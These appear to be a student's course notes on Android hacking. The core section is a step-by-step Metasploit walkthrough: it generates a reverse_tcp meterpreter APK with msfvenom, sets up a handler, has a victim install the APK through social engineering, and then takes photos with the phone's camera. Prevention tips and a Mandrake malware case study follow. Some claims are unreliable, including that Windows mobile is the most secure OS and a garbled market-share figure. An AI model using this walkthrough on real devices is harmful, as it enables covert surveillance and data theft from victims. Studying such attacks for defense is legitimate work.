 ## 13_ Android Hacking

### Certificate
!["Certificate"](./13_AndroidHacking.jpg)

### Android Hacking
- One of the most used mobile operating systems and also one of the most vulnerable
- What is Android hacking?
  - It's as simple as installing an app on your phone, but what kind?
  - A .apk that is malicious and is created by a hacker with the motive to exploit
  - Once you install such an app, hackers get whole control over the phone
- Hackers can access your contacts, call logs, pictures, camera, and a lot more

### Android 
- It's an open-source and Linux-based operating system for mobile devices, such as smartphones and tablets
- Android was developed by the Open Handset Alliance, led by Google and other companies
- Android offers a unified approach to application development for mobile devices, which means developers need only develop for Android and their apps should be able to run on different devices powered by Android

### What is an APK?
- Android Package is the package file format used by the Android operating system for the distribution and installation of mobile apps, mobile games, and middleware
- An APK file is an app created for Android, Google's mobile operating system
- Some apps come pre-installed on Android devices, while other apps can be downloaded from Google Play
- Apps downloaded from Google Play are automatically installed on your device, while those downloaded from other sources must be installed manually

### Why Android?
- Android has evolved over the years and quickly became the dominant mobile platform across the globe; it's one of the most used mobile operating systems
- Talking about stats, Android has a huge share of around 70% in the mobile market, whereas 30% is shared by iOS and Windows respectively
- Having 70% market share gives hackers a lot of stuff to exploit

### Which mobile OS is most secure?
- Windows OS for mobile is the most secure
- Hackers don't put efforts in to exploit it

### Metasploit
- One of the most powerful exploit tools
- Comes in two versions: commercial and free. No major differences between the two
- As an ethical hacker, you will be using "Kali Distribution" which has the Metasploit community version embedded in it along with other ethical hacking tools
- Can be used either with the command prompt or with a web UI
- In Kali: go to Applications -> Exploitation Tools -> Metasploit

### Payloads
- Payload = simple script that hackers use to interact with a hacked system; they'll be able to transfer data to a victim's system
- Can be of three types:
  - Singles: very small and designed to create some kind of communication, then move to the next stage. Example: creating a user
  - Staged: payload that an attacker can use to upload a bigger file onto a victim's system
  - Stages: payload components that are downloaded by Stager's modules. The various payload stages provide advanced features with no size limits, such as Meterpreter and VNC Injection

### Android Hacking
- Requirements:
  - Metasploit framework (we use Kali Linux 1.0.6 in this tutorial)
  - Android smartphone (we use HTC One android 4.4 KitKat)
- Step 1: use metasploit to create an exploit
  - Command: "msfvenom -p android/meterpreter/reverse_tcp LHOST = <localhost> LPORT = <port number> R > filename.apk"
  - msfvenom = command line instance of Metasploit
  - -p = we need to generate a payload
  - android/meterpreter/reverse_tcp = a reverse TCP attack and use this payload
  - LHOST = stands for the local IP on the attack will be executed
  - LPORT = port number on which the attack will be executed. There are 65000 ports. You can choose any random one which is ot used by any major service
  - filename.apk = apk file that you wish to generate, which later will be used for exploitation
- Path
  - apk file generated here: Other Location -> Computer -> var -> www -> html
- Step 2: run the command
  - Command: "service apache2 && service postgresql start"
- Step 3: because our payload is reverse_tcp where the attacker expects the victim to connect back to the attacker machine, the attacker needs to set up the handler to handle incoming connections to the port already specified
  - Type "msfconsole" to go to the Metasploit console
  - Command: "use exploit/multi/handler"
  - This means we will be using Metasploit handler: "set PAYLOAD android/meterpreter/reverse_tcp"
- Step 4: configure the switch for the Metasploit payload
  - "set LHOST <localhost>"
  - "set LPORT <random port>"
  - Command: "exploit"
- Note: will only work when you and the target are connected to the same local network

### Camera Hacking
- Once the exploit is running, all you need to do is install the generated .apk in the victim's device and then you can use many social engineering techniques
- As soon as the victim installs the APK, you will get a whole bunch of commands, using which you can hack contacts, cameras, and more
- Command to hack the cameras: "webcam_list"
- Command to click back camera pic and save to Kali root directory: "webcam_snap 2"

### Prevent Android attacks
- Use a phone that gets frequent security updates and make sure that you apply those frequent security updates as they come
  - iPhones are given frequent security updates from Apple
  - Samsung, HTC, LG, and other Android phone manufacturers are bad at delivering security updates that Google provides
- Be hyper-aware of what apps you are installing on your phone
  - Apple catches a lot of malware before listing on the App Store
  - Google Play Store is more lax about checking software
- Don't get caught by phishing (or spear-phishing) scams
  - Don't click on links from people you don't know
- Be extra careful, extra suspicious, when you are on a public network
- Use strong (meaning long) and unique passwords/passphrases
- Lock your phone with something
  - Such as a PIN, entered shape, fingerprint, retinal scan, face scan

### Real life cases
- Researches from Bitdefenders have shared a detailed white paper on their findings regarding the Mandrake Android malware
- They found the malware available on the Google Play Store disguising at least 7 apps, each bearing a wide user base
- When executed, Mandrake runs stealthily on the victim's device, extracting data, and it also exhibits numerous functionalities to take over the target device
- Reportedly, the malware dubbed Mandrake was active in the wild for at least four years
- During all this time the malware remained undetected all this time only to be caught by Bitdefender in early 2020